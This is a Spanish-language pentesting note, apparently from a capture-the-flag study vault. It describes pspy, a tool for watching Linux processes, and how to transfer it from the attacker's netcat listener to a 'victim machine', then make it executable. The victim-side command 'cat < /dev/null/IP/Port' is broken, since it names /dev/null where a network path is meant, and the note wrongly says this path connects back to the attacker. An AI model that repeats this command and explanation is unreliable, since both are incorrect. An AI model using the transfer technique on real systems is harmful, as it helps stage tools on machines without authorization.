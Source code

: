 [Link de la herramienta pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

# Resumen de comandos en orden

```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Desde la maquina victima: cat < /dev/null/IpDeNuestraMaquina/Puerto > NombreDelArchivo
```
--------

Es una herramienta que permite **ver procesos en ejecución en tiempo real** en sistemas Linux **sin necesidad de privilegios root**.
![[pspy.png]]
Para pasarnos el pspy desde nuestra maquina a la maquina victima
```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Ejemplo desde nuestra maquina: nc -nlvp 443 < pspy

Desde la maquina victima: cat < /dev/null/IpDeNuestraMaquina/Puerto > NombreDelArchivo
Ejemplo desde la maquina victima: cat < /dev/null/10.10.11.130/443 > pspy
```
Para mas informacion sobre el comando [[nc -nlvp 443]]

*Parametros comando maquina victima*
`cat` Es para ver el contenido de un archivo
`< /dev/null/IpDeNuestraMaquina/Puerto` Establece una conexion a nuestra maquina


##### Recordatorio
Una vez recibido el archivo a la maquina victima, recordar darle permisos de ejecucion
```shell
chmod +x NombreDelArchivo
Ejemplo: chmod +x pspy
```